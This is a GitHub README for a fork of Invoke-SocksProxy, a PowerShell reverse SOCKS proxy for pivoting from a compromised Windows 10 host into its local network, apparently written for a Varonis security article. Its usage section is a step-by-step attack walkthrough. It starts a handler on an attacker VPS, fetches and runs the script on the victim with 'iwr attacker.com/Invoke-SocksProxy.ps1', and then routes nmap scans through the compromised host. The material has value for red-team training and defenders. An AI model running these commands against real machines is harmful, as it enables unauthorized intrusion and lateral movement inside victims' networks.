




Invoke-SocksProxy is a PowerShell script designed to create reverse proxies. It illustrates one way adversaries use compromised Windows 10 hosts to pivot attacks into local networks.

This repository is a fork of [Invoke-SocksProxy](https://github.com/p3nt4/Invoke-SocksProxy), created for [Varonis](https://www.varonis.com/blog/author/tokyoneon/) by [@tokyoneon_](https://twitter.com/tokyoneon_).

### Usage

For context and examples with crackmapexec, patator, smbclient, and firefox, review [the official publication](https://www.varonis.com/blog/author/tokyoneon/).

Clone the repository on the attacker's VPS.
```
root@vps > cd /opt; git clone https://github.com/tokyoneon/Invoke-SocksProxy
```

Start the reverse proxy handler.
```
root@vps > cd /opt/Invoke-SocksProxy; ./ReverseSocksProxyHandler.py
```



Change the [hardcoded VPS address in the PS1](https://github.com/tokyoneon/Invoke-SocksProxy/blob/master/Invoke-SocksProxy.ps1#L1) and host it on an HTTP server. Download it on the compromised Windows 10 workstation and execute.
```
Ps > cd $env:TEMP
Ps > iwr attacker.com/Invoke-SocksProxy.ps1 -outfile isp.ps1
Ps > .\isp.ps1
```



Configure proxychains to use the VPS address.
```
sudo apt-get install -y proxychains4 && sudo nano /etc/proxychains4.conf
```



Proxy Nmap scans with proxychains.
```
proxychains nmap -sT -Pn -n -p445,139,88,80 172.16.0.4,115
```


